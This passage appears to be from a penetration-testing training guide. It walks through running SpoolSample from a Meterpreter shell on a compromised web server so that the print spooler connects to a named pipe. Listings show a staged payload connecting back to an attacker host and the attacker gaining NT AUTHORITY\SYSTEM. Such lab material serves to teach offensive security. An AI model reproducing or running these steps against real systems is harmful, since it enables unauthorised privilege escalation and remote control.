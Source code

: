 We'll then background the initial shell channel, launch a new shell, and run SpoolSample with web01 as the target:

```
^Z
Background channel 1? [y/N] y

meterpreter > shell
Process 3420 created.
Channel 2 created.
...

c:\windows\system32\inetsrv> c:\inetpub\wwwroot\upload\SpoolSample.exe web01 web01/pipe/test
c:\inetpub\wwwroot\upload\SpoolSample.exe web01 web01/pipe/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```

> Listing 29 - Executing SpoolSample

Once SpoolSample completes, we'll switch back to the original channel, where the print spooler connects to the named pipe:

```
c:\windows\system32\inetsrv> ^Z

Background channel 2? [y/N]  y
meterpreter > 
[*] https://192.168.119.120:443 handling request from 192.168.120.132; (UUID: d3rddshy) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.119.120:443 -> 192.168.120.132:50410)

meterpreter > channel -i 1
Interacting with channel 1...

Found sid S-1-5-18
Impersonated user is: NT AUTHORITY\SYSTEM
```

> Listing 30 - SpoolSample connecting back

Immediately following the print spooler connection, a new Meterpreter session is created.

```
PS C:\windows\system32\inetsrv> ^Z

Background channel 1? [y/N]  y

meterpreter > background
[*] Backgrounding session 1...

msf5 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
